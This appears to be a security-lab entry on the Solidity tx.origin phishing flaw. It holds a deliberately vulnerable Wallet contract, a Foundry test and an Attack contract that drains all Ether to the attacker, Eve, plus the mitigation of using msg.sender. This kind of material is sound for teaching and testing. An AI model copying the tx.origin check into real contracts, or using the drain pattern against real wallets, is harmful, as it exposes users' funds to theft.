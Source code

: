 # txorigin - phishing  
[txorigin.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/txorigin.sol)  
**Name:** Insecure tx.origin Vulnerability

**Description:**  
tx.origin is a global variable in Solidity; using this variable for authentication in
a smart contract makes the contract vulnerable to phishing attacks.

**Scenario:**  
Wallet is a simple contract where only the owner should be able to transfer
Ether to another address. Wallet.transfer() uses tx.origin to check that the
caller is the owner. Let's see how we can hack this contract

**What happened?**  
Alice was tricked into calling Attack.attack(). Inside Attack.attack(), it
requested a transfer of all funds in Alice's wallet to Eve's address.
Since tx.origin in Wallet.transfer() is equal to Alice's address,
it authorized the transfer. The wallet transferred all Ether to Eve.

**Mitigation:**
It is advisable to use msg.sender.

**REF:**

https://hackernoon.com/hacking-solidity-contracts-using-txorigin-for-authorization-are-vulnerable-to-phishing

**Contract:**  
``` 
contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        // check with msg.sender instead of tx.origin
        require(tx.origin == owner, "Not owner");

        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
```
****How to Test:****

forge test --contracts src/test/**txorigin.sol** -vvvv
```
// A function to test exploitation of the use of tx.origin.
function testtxorigin() public {
    // The addresses of 'alice' and 'eve' are obtained from the Ethereum virtual machine.
    address alice = vm.addr(1);
    address eve = vm.addr(2);

    // Alice is given 10 ether and Eve is given 1 ether.
    vm.deal(address(alice), 10 ether);
    vm.deal(address(eve), 1 ether);

    // A prank is played on Alice.
    vm.prank(alice);

    // Alice deploys a Wallet contract with 10 ether.
    WalletContract = new Wallet{value: 10 ether}();

    // The owner of the Wallet contract is logged.
    console.log("Owner of wallet contract", WalletContract.owner());

    // A prank is played on Eve.
    vm.prank(eve);

    // Eve deploys an Attack contract and provides the address of Alice's Wallet contract.
    AttackerContract = new Attack(WalletContract);

    // The owner of the Attack contract is logged.
    console.log("Owner of attack contract", AttackerContract.owner());

    // The balance of Eve is logged.
    console.log("Eve of balance", address(eve).balance);

    // Another prank is played on Alice and Alice is tricked into calling the attack function.
    vm.prank(alice, alice);
    AttackerContract.attack();

    // The tx.origin address and the msg.sender address are logged.
    console.log("tx origin address", tx.origin);
    console.log("msg.sender address", msg.sender);

    // The updated balance of Eve is logged.
    console.log("Eve of balance", address(eve).balance);
}

// The Attack contract that is used to exploit the Wallet contract.
contract Attack {
    address payable public owner;
    Wallet wallet;

    // The constructor takes a Wallet contract as argument.
    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    // The attack function transfers all ether from the Wallet contract to the owner of the Attack contract.
    function attack() public {
        wallet.transfer(owner, address(wallet).balance);
    }
}
```
Red box: transferred all Ether to Eve.
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F4311be5d-785a-4446-886f-02787a9e7ba4%2FUntitled.png?table=block&id=02802dc6-5cc0-4060-aeb5-dc82768f57d3&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
